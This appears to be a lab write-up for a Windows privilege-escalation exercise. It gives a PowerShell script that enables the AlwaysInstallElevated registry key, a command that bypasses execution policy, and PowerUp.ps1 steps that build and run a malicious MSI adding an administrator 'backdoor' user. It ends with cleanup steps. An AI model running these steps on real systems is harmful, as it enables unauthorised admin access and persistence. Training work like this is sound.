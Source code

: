 # Write A PS Script That Enables The AlwaysInstallElevated Registry Key
The AlwaysInstallElevated vulnerability in Microsoft Windows lets unprivileged attackers install programs with elevated privileges without user consent, potentially enabling the installation of spyware and malware.

Powerup.ps1 is a PowerShell script that escalates privileges by adding users, changing passwords, and modifying permissions, allowing attackers to access sensitive data or systems.

## References
- [AlwaysInstallElevated](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated) by Microsoft
- [PowerSploit / PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) by PowerShellMafia on GitHub
- [Detecting AlwaysInstallElevated Policy Abuse - Windows PrivEsc](https://bherunda.medium.com/windows-privesc-detecting-alwaysinstallelevated-policy-abuse-f3ffa7a734bd) by Ankith Bharadwaj on Medium
- [PowerUp Cheatsheet](https://blog.certcube.com/powerup-cheatsheet/) by MR X on CertCube Labs
- [Get-RegistryAlwaysInstallElevated](https://powersploit.readthedocs.io/en/latest/Privesc/Get-RegistryAlwaysInstallElevated/) by PowerSploit
- [AlwaysInstallElevated - Windows Privilege Escalation](https://juggernaut-sec.com/alwaysinstallelevated/#Exploiting_AlwaysInstallElevated_with_PowerUp_GUI) by Juggernaut Pentesting Academy
- [Windows Powershell policy execution bypass](https://stackoverflow.com/questions/67270197/windows-powershell-policy-execution-bypass) on stackoverflow
- [Write-UserAddMSI](https://powersploit.readthedocs.io/en/latest/Privesc/Write-UserAddMSI/) by PowerSploit

## Tasks
- Create a PowerShell script that modifies the Windows registry to enable the AlwaysInstallElevated registry key
- Execute the PowerShell script to enable the AlwaysInstallElevated registry key on the target system
- Exploit the AlwaysInstallElevated vulnerability using PowerUp.ps1

## Solutions With Scripts
1. The `AlwaysInstallElevated` registry key exists in two locations: `HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer` and `HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
2. If the registry key does not exist or if the Installer key containing the registry does not exist, head to the closest existing key and manually create a new `Installer` key and the `AlwaysInstallElevated` registry key
3. We can query for the value of the AlwaysInstallElevated subkey for each of these registry keys with the following commands
   ```
   reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
   reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
   ```
   If the value is set to 0x1, it is enabled on the host
4. Save and run the following PowerShell script with administrator privileges to enable `AlwaysInstallElevated`
   ```
   # PowerShell script to enable the AlwaysInstallElevated registry key

   # Enable AlwaysInstallElevated for Local Machine
   $regPathLM = "HKLM:SOFTWARE\Policies\Microsoft\Windows\Installer"
   Set-ItemProperty -Path $regPathLM -Name "AlwaysInstallElevated" -Value 1 -Force

   # Enable AlwaysInstallElevated for Current User
   $regPathCU = "HKCU:SOFTWARE\Policies\Microsoft\Windows\Installer"
   Set-ItemProperty -Path $regPathCU -Name "AlwaysInstallElevated" -Value 1 -Force

   Write-Host "AlwaysInstallElevated has been enabled for both HKLM and HKCU."
   ```
5. To execute the script, open PowerShell with administrator privileges and navigate to the folder where the script is stored. Run the following command to bypass execution policy restrictions
   ```
   Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
   ```
   Then run the script using `./Enable-AlwaysInstallElevated.ps1`
6. To identify the vulnerability with PowerUp.ps1, download PowerUp.ps1 from the PowerSploit repository. In the same PowerShell session, run the following command to import and execute PowerUp.ps1
   ```
   Import-Module .\PowerUp.ps1
   Get-RegistryAlwaysInstallElevated
   ```
   ![image](https://github.com/user-attachments/assets/e8a8450e-323a-450b-96dc-02376af54343)
7. Then to exploit the vulnerability, generate a malicious MSI with the `Write-UserAddMSI` command that adds a user with administrator privileges to the system
   ```
   Write-UserAddMSI
   ```
8. Run the MSI file by executing it on the target machine
   ```
   .\UserAdd.msi
   ```
   The GUI below will appear, allowing you to change the Username, Password and Group <br/>
   ![image](https://github.com/user-attachments/assets/dd274af5-ba62-4799-be18-7ab867cae391)
9. To check if the user exists and has administrative rights, run
   ```
   net user
   net localgroup administrators
   ```
   Screenshot of commands used and output: <br/>
   ![image](https://github.com/user-attachments/assets/acf82501-f172-45d9-a3c0-5b5b318a5adf)
10. (Optional) After completion of the tests, to disable AlwaysInstallElevated, set the registry keys back to 0
   ```
   # Disable AlwaysInstallElevated for Local Machine
   $regPathLM = "HKLM:SOFTWARE\Policies\Microsoft\Windows\Installer"
   Set-ItemProperty -Path $regPathLM -Name "AlwaysInstallElevated" -Value 0 -Force
   
   # Disable AlwaysInstallElevated for Current User
   $regPathCU = "HKCU:SOFTWARE\Policies\Microsoft\Windows\Installer"
   Set-ItemProperty -Path $regPathCU -Name "AlwaysInstallElevated" -Value 0 -Force
   ```
   The backdoor user can also be deleted using
   ```
   net user backdoor /delete
   ```



